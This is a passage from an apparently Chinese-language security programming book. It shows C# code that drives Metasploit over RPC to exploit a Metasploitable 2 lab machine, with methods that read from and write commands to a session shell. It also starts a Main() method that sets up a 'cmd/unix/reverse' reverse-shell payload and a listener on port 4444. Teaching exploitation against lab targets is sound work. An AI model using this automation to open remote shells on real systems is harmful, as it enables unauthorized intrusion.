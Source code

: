 > return _session.Execute("session.shell_read", sessionID, readPointer.Value);
> 
> else
> 
> return _session.Execute("session.shell_read", sessionID);
> 
> }
> 
> public Dictionary<object, object> ➎WriteToSessionShell(string sessionID, string data)
> 
> {
> 
> return _session.Execute("session.shell_write", sessionID, data);
> 
> }
> 
> public void Dispose()
> 
> {
> 
> _session = null;
> 
> }
> 
> }

Listing 11-11: MetasploitManager 类

MetasploitManager 构造函数将 MetasploitSession ➊ 作为唯一参数，并将会话参数分配给一个本地类变量。该类中的其他方法只是封装了我们用于自动化利用 Metasploitable 2 的特定 RPC 方法。例如，我们使用 ListJobs() 方法 ➋ 来监控我们的 exploit，以便在 exploit 完成时知道，并可以在目标机器上运行命令。

我们使用 ReadSessionShell() 方法 ➍ 来读取运行命令时通过会话产生的任何输出。相反，WriteToSessionShell() 方法 ➎ 将任何命令写入 shell 以便执行。ExecuteModule() 方法 ➌ 接受一个要执行的模块和执行该模块时使用的选项。每个方法都使用 Execute() 执行给定的 RPC 方法，并将结果返回给调用者。我们将在接下来的章节中讨论每个方法，并完成驱动 Metasploit 的最后步骤。

整合所有内容

现在，我们可以使用我们的类开始通过 Metasploit 自动化利用过程。首先，编写一个 Main() 方法来监听连接回来的 shell，然后运行一个 exploit，使 Metasploitable 连接回我们的监听器并建立一个新会话（参见 Listing 11-12）。

> public static void Main(string[] args)
> 
> {
> 
> ➊string listenAddr = args[1];
> 
> int listenPort = 4444;
> 
> string payload = "cmd/unix/reverse";
> 
> using (➋MetasploitSession session = new MetasploitSession("username",
> 
> "password", "http://"+listenAddr+":55553/api"))
> 
> {
> 
> if (string.IsNullOrEmpty(session.➌Token))
> 
> throw new Exception("登录失败。检查凭据");
> 
> using (MetasploitManager manager = new ➍MetasploitManager(session))
> 
> {
> 
> Dictionary<object, object> response = null;
> 